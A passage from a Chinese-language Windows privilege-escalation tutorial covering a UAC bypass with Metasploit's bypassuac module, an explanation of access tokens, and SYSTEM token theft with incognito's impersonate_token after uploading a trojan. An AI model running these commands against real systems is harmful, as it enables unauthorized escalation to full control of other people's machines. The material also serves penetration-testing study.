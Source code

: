   
MSF中Bypassuac模块的使用前提有两个：  
1. 一是系统当前用户必须在管理员组中，  
  
1. 二是用户账户控制程序UAC设置为默认，即 “仅在程序试图更改我的计算机时通知我” 。  
  

```
use exploit/windows/local/bypassuac
set session 1
set lhost 0.0.0.0          
set lport 24444                #本地监听的端口，随便设置一个未被占用的端口即可
exploit

```

#### 6、令牌窃取  
##### 令牌简介  
  
描述进程或者线程安全上下文的一个对象。不同的用户登录计算机后， 都会生成一个Access Token，它描述了用户的安全标识符（SID）、所属组的SID、用户的权限、登录信息等。每个用户登录到系统时，系统都会为其创建一个访问令牌。这个Token在用户创建进程或者线程时会被使用，不断的拷贝，这也就解释了A用户创建一个进程而该进程没有B用户的权限。一般用户双击运行一个进程都会拷贝explorer.exe的Access Token。访问令牌分为：  
  
* 授权令牌（Delegation token）：交互式会话登陆（例：本地用户登陆、用户桌面等）  
  
* 模拟令牌（Impersonation token）：非交互式登陆（例：net use 访问共享文件）  
  
两种token只有在系统重启后才会清除；授权令牌在用户注销后，该令牌会变为模拟令牌依旧有效。  
  
同样也可以这样理解，**当前系统中的某个进程或线程能访问到什么样的系统资源,完全取决于你当前进程是拿着谁的令牌。**  
  
默认情况下，我们列举令牌，只能列举出当前用户和比当前用户权限更低用户的令牌。令牌的数量取决于当前shell的访问级别，如果当前的shell是administrator或者是system，我们就可以看到系统中的所有的令牌。  
  
在Windows命令行中，可以使用如
```
whoami /all
```

  
命令查看当前用户的安全令牌信息，或者使用更高级的工具如 Sysinternals套件中的
```
tokenmon
```

  
来监视令牌的创建和销毁。  
  
**注意：**首先需要将木马上传至需要提权的服务器中，然后执行命令进行令牌窃取提权。  

```
use incognito
list_tokens -u           #列出有的令牌
impersonate_token &#34;NT AUTHORITY\SYSTEM&#34; #窃取system令牌

```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXaXOhRtEnHbkjEVLTGvvuMT5mMrTY9TKCPWDBjev4lJoxjeULNVND4Q/640?wx_fmt=jpeg&from=appmsg "")  
#### 7、烂土豆提权  
  